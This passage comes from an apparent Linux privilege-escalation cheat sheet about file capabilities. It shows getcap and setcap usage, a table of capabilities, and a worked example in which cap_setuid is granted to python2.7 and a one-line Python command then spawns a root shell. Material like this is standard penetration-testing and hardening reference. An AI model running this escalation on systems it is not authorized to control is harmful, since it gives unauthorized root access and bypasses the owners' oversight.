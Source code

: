 ## Capabilities

### List capabilities of binaries

```powershell
╭─swissky@lab ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### Edit capabilities

```powershell
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

### Interesting capabilities

Having the capability =ep means the binary has all the capabilities.

```powershell
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

Alternatively the following capabilities can be used in order to upgrade your current privileges.

```powershell
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

Example of privilege escalation with `cap_setuid+ep`

```powershell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```

| Capabilities name  | Description |
|---|---|
| CAP_AUDIT_CONTROL  | Allow to enable/disable kernel auditing |
| CAP_AUDIT_WRITE  | Helps to write records to kernel auditing log |
| CAP_BLOCK_SUSPEND  | This feature can block system suspends   |
| CAP_CHOWN  | Allow user to make arbitrary change to files UIDs and GIDs |
| CAP_DAC_OVERRIDE  | This helps to bypass file read, write and execute permission checks |
| CAP_DAC_READ_SEARCH  | This only bypasses file and directory read/execute permission checks  |
| CAP_FOWNER  | This enables bypass of permission checks on operations that normally require the filesystem UID of the process to match the UID of the file  |
| CAP_KILL  | Allow the sending of signals to processes belonging to others  |
| CAP_SETGID  | Allow changing of the GID  |
| CAP_SETUID  | Allow changing of the UID  |